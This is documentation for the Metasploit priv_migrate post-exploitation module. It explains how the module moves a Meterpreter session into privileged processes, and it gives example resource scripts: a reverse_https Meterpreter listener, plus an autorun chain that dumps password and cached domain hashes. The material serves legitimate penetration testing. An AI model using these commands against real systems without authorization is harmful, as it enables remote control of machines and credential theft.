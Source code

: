## Overview
This module evaluates a Windows Meterpreter session's privileges and migrates the session accordingly. The purpose of this module is to enable the scripting of migrations post exploitation, which allows you to immediately run post modules that require system rights.  

You can use this module in situations where incoming sessions may have mixed rights levels and the session needs to be migrated appropriately for additional post modules to run. It is also useful in situations where migration needs to occur within a short period after the session is created. 

The types of migrations that occur are described below: 

- A session with admin rights is migrated to a system owned process. 
- A session with user rights is migrated to a user level process. If a specified user level process is not running, the module will spawn it and then migrate the session. 

This module is a nice addition to the beginning of an autorun script for post-Meterpreter session creation. An example of an autorun script is provided below.

## Options
- **ANAME** - This option allows you to specify a system level process that the module attempts to migrate to first if the session has admin rights. 
- **NAME** - This option allows you to specify the user level process that the module attempts to migrate to first if the session has user rights or if admin migration fails through all of the default processes.  
- **KILL** - This option allows you to kill the original process after a successful migration. The default value is FALSE.
- **NOFAIL** - This option allows you to specify whether or not the module will migrate the session into a user level process if admin level migration fails. If TRUE, this may downgrade privileged shells. The default value is FALSE.

## Module Process
Here is the process that the module follows:

- Retrieves the privilege information for the current session.
- If the session has admin rights, it attempts to migrate to a system owned process in the following order:
    - ANAME (Module option, if specified)
    - services.exe
    - wininit.exe
    - svchost.exe
    - lsm.exe
    - lsass.exe
    - winlogon.exe
- The module will not migrate if the session has System rights and is already in one of the above target processes.
- If it is unable to migrate to one of these processes, it drops to user level migration if NOFAIL is TRUE.
- If the session has user rights, it attempts to migrate to a user owned process in the following order:  
    - NAME (Module option, if specified)
    - explorer.exe
    - notepad.exe
- If it cannot migrate, it attempts to spawn the process and migrates to the newly spawned process.

## Using This Module with AutoRun Scripts
The use of autorun scripts with this module is an easy way to automate post-exploitation for incoming Meterpreter sessions. The following section describes the basic setup information and provides a script example to show how this module comes in handy.

### Basic Setup Information
Resource file (.rc) scripts can be used to automate many processes in Metasploit, particularly starting up the  console and running scripts once a session is created.

Startup scripts are executed using the following example where startup.rc is the startup script, and it is located in the user's home directory. Startup scripts are executed once the Metasploit Framework is loaded.

```
./msfconsole -r /home/user/startup.rc
```

The following is an example startup script that fires up a Meterpreter listener and specifies an autorun script that will be executed when a new session is created. In this example auto.rc is the script to be run after session creation.

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.1.101
set LPORT 13002
set ExitOnSession false
set AutoRunScript multi_console_command -r /home/user/auto.rc
exploit -j
```

### AutoRun Script Example
This example is a script that will use priv_migrate to migrate the session based on session rights. After migration, it executes modules that will retrieve user password hashes and cached domain hashes. Each one of the hash dump modules requires system rights to be successful. Priv_migrate makes it possible to execute these modules in an autorun script. For sessions with user rights, the hash dump modules will fail, but that is unlikely to impact the state of the session.

```
run post/windows/manage/priv_migrate
run post/windows/gather/hashdump
run post/windows/gather/cachedump
```
